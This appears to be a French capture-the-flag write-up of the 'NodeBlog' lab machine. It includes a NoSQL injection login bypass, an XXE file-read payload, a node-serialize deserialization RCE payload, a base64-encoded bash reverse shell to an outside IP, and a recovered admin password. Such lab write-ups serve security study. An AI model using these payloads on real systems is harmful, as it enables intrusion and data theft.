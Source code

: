 # NodeBlog - Easy

```bash
nmap -sV -sC 10.10.11.139 -p- 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-03 15:52 EDT
Nmap scan report for 10.10.11.139
Host is up (0.027s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea8421a3224a7df9b525517983a4f5f2 (RSA)
|   256 b8399ef488beaa01732d10fb447f8461 (ECDSA)
|_  256 2221e9f485908745161f733641ee3b32 (ED25519)
5000/tcp open  http    Node.js (Express middleware)
|_http-title: Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.75 seconds
```

On va donc sur le site sur le port 5000, on lance un gobuster. Rien de concluant donc on va essayer avec SQLmap sur la page de login

```bash
[16:02:22] [CRITICAL] all tested parameters do not appear to be injectable.
```

Vu que c’est du node on peut essayer SSTI car en plus le site peut nous servir d’oracle avec invalid username ou invalid password, ça ne marche pas

On va alors essayer une nosql injection [https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql](https://book.hacktricks.xyz/pentesting-web/nosql-injection#blind-nosql)

On arrive à se connecter avec ce payload:

```bash
{"user": "admin", "password": {"$ne": "admin"} }
```

Il est possible d’upload des fichiers XML donc on va essayer une XEE:

```bash
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><post><title>test</title><description>&test;</description></post>
```

On obtient bien le /etc/passwd donc on va essayer d’obtenir les fichiers du serveur, on ne sait pas ou ils sont alors on va essayer de trigger un erreur pour peut être révéler le path.

Si on essaye l’injection NoSQL en faisant exprès de rater on a une erreur qui contient ceci:

```bash
SyntaxError: Unexpected token p in JSON at position 18<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at parse (/opt/blog/node_modules/body-parser/lib/types/json.js:89:19)<br> &nbsp; &nbsp;at /opt/blog/node_modules/body-parser/lib/read.js:121:18<br> &nbsp; &nbsp;at invokeCallback (/opt/blog/node_modules/raw-body/index.js:224:16)<br> &nbsp; &nbsp;at done (/opt/blog/node_modules/raw-body/index.js:213:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/opt/blog/node_modules/raw-body/index.js:273:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (events.js:412:35)<br> &nbsp; &nbsp;at endReadableNT (internal/streams/readable.js:1334:12)<br> &nbsp; &nbsp;at processTicksAndRejections (internal/process/task_queues.js:82:21)v
```

On obtient le code du serveur si on va dans /opt/blog/server.js

```jsx
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
app.use(express.urlencoded({ extended: false }))
app.use(methodOverride('_method'))
app.use(fileUpload())
app.use(express.json());
app.use(cookieParser());
//app.use(session({secret: "UHC-SecretKey-123"}));

function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}

app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)

app.listen(5000)
```

On voit que il y a de la serialisation, ce qui est souvent vulnérable à des attaques : [https://security.snyk.io/vuln/npm:node-serialize:20170208](https://security.snyk.io/vuln/npm:node-serialize:20170208)

Le payload est donc:

```jsx
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}'
```

Quand on regarde le cookie on a bien cette valeur en base64:

```json
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```

On a donc ce message au total:

```json
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Pour que le payload passe il faut URL-encode TOUT le payload. Avec un reverse shell ça ne marche pas directement donc on essaye d’encoder en base64:

```bash
echo -n '/bin/bash -i >& /dev/tcp/10.10.16.6/9090 0>&1' | base64

L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjYvOTA5MCAwPiYx
```

Et il suffira d’executer:

```bash
echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjYvOTA5MCAwPiYx | base64 -d | bash
```

Il faut maintenant trouver quelque chose pour privesc, on peut chercher dans la bdd mongo qui est apparemment dans localhost/blog

```bash
mongodump
```

L’utilitaire est déjà installé et on obtient le mdp de admin: IppsecSaysPleaseSubscribe qui nous donne l’accès à root.